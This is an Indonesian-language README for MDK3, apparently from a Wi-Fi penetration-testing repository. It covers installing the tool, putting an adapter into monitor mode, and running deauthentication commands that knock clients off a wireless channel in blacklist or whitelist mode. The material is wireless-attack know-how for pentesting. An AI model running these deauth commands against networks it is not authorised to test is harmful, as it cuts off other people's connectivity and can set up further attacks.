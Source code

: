# MDK3

![MDK3](https://github.com/fixploit03/Pentest-WiFi/blob/main/tools/mdk3/img/mdk3_4.jpg)

## Instalasi

Kali Linux:

1. Menggunakan package manager (`apt`):

   ```
   sudo apt-get update
   sudo apt-get install mdk3 aircrack-ng
   ```

2. Melalui compile dari source:
   
   ```
   sudo apt-get update
   sudo apt-get install build-essential libpcap-dev git
   git clone https://github.com/charlesxsh/mdk3-master
   cd mdk3-master
   make
   sudo make install
   ```

## Setup Adapter Wi-Fi

1. Pasang adapter Wi-Fi ke laptop/PC.
2. Pada aplikasi VirtualBox klik tab `Devices` -> `USB` -> `Jenis/merek`.
3. Pastikan checkbox nya sudah tercentang.
4. Buka terminal.
5. Ketikkan `iwconfig`, pastikan nama interface `wlan0` muncul.
6. Kalau sudah muncul, aktifkan mode monitor menggunakan:

   ```
   sudo airmon-ng check kill
   sudo airmon-ng start wlan0
   ```
7. Cek kembali menggunakan `iwconfig` apakah mode interfacenya sudah berubah menjadi mode `Monitor`.
8. Cek packet injection menggunakan:

   ```
   sudo aireplay-ng --test wlan0
   ```
   
## Penggunaan

**1. Scan Wi-Fi:**

```
sudo airodump-ng [interface]
```

**2. Jalankan MDK3:**

   1. Blacklist mode:

      ```
      sudo mdk3 wlan0 d -b [file_blacklist] -c [channel]
      ```

      Blacklist mode itu hanya melakukan deauth terhadap client yang ada di file `[file_blacklist]`. Client lainnya akan diabaikan.
   2. Whitelist mode:

      ```
      sudo mdk3 wlan0 d -w [file_whitelist] -c [channel]
      ```

      Whitelist mode itu kebalikan dari blacklist mode. Semua client akan di-deauth, kecuali yang ada di file `[file_whitelist].` (dilindungi).

## Video Demonstrasi

[https://youtu.be/eO44GfS2LO8?si=fDtXCxNIUE0_k-1Z](https://youtu.be/eO44GfS2LO8?si=fDtXCxNIUE0_k-1Z)
